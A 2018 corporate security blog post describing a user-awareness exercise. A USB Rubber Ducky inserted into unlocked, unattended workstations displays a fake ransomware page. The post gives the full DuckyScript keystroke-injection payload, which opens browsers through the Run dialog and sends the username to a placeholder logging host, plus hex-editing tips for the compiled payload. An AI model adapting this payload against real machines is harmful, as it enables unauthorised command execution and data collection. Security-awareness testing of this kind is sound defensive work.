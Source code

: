 ```yaml
---
layout: post
title: "Unattended, Unlocked, Unprotected Terminals - User Security Training with USB Rubber Ducky"
date: 2018-08-21 00:00
comments: false
author: Rodney Beede
authorIsRacker: true
published: true
categories:
  - Security
---
```


As part of our user security awareness training, we perform tests of our personnel in the work environment.  One training exercise involved testing for unattended computers by inserting a USB device that would display a ransomware screen.

<!-- more -->

## What is USB Rubber Ducky?

USB Rubber Ducky is a product made by a company called Hak5.  You can find information about it at:

* [Hak5's hackshop.com](http://hakshop.com/products/usb-rubber-ducky-deluxe)
* [Hak5's GitHub Repository](https://github.com/hak5darren/USB-Rubber-Ducky)

To you, it looks like a USB thumb drive, but it actually emulates a USB HID keyboard.  After it's plugged in, a payload a payload programmed into the device sends keyboard commands to the computer.

This allows a security tester to quickly run commands on an unprotected computer without having to sit down at the computer and type.

## Our ransomware exercise

We walked around our location looking for computers that were unattended and had not been locked (left at the desktop screen).  If we discovered an unattended computer, we inserted the USB Rubber Ducky into a USB port which delivered our payload.

### What happens?

The payload sends keystroke commands that:

1. Open up a web browser
1. Place the web browser full screen
1. Open a second web browser on the second monitor
   * Also in full-screen mode
1. Navigate to a fake ransomware page

The fake ransomware page includes text that indicates it is a security test and provides links to security training for the user.

## Payload code and tools

The tool **duckencoder_2.6.4.jar** from the [USB Rubber Ducky GitHub site](https://github.com/hak5darren/USB-Rubber-Ducky) encodes the payload command script for the USB Rubber Ducky hardware.

One limitation is that the encoder does not have built-in support for the key combination of **win + CTRL + desktop** (open a new virtual desktop).  I overcame this limitation by manually editing the compiled **inject.bin** with a hex editor to change the keycode bytes from _07 05_ to _07 09_ (hexadecimal).

Although I have submitted code enhancements to the product's GitHub project, the maintainers have not updated it in quite some time (Dec. 7, 2016).  Ideally, the encoder would have support for more key combinations, but most desired actions can be done without using a hex editor.  I was successful in getting **STRING_DELAY** added to the official code base, and this script command is very helpful for writing shorter payloads.

### Code

```
REM Author:  Rodney Beede of GES-TVA
REM Created: 2018-05-31


DEFAULT_DELAY 100

REM startup delay
DELAY 100

REM Create a new desktop is  win + CTRL + desktop
REM ducky script doesn't support this so make it yourself
REM by ORing the MODIFIER_KEY values together! and HxD
REM https://github.com/hak5darren/USB-Rubber-Ducky/blob/master/Encoder/resources/keyboard.properties

REM CTRL-ALT d MAKES 07 05
REM CTRL-ALT === 0x05
REM d === 0x07   (these are keyboard codes, not ascii)
REM win+ctrl+d MAKES 07 09
CTRL-ALT d



REM run dialog
GUI r

REM the double quotes are important
STRING_DELAY 10 "c:\Program Files\internet explorer\iexplore.exe" -k http://fake-ransomeware-page.example.com/log/%username%
ENTER


REM open a second one and put on the second monitor

GUI r
STRING_DELAY 10 "c:\Program Files\internet explorer\iexplore.exe" -k http://fake-ransomeware-page.example.com/log/%username%
ENTER



REM win+SHIFT+right arrow to move window to other desktop
REM HxD edit so CTRL-ALT (05) becomes WIN+SHIFT value:  0A
REM 4F 05 ===>  4F 0A
CTRL-ALT RIGHT
```


## Summary

We chose the ransomware screen shock factor as a way to educate users of the security risk to company data.  It creates more ownership (versus just an email note from security) by demonstrating real-world impact of what could happen from a malicious actor.

![Ransomware Screen]({% asset_path 2018-08-21-unattended-unlocked-unprotected-terminals-user-security-training/ransomware.png %})
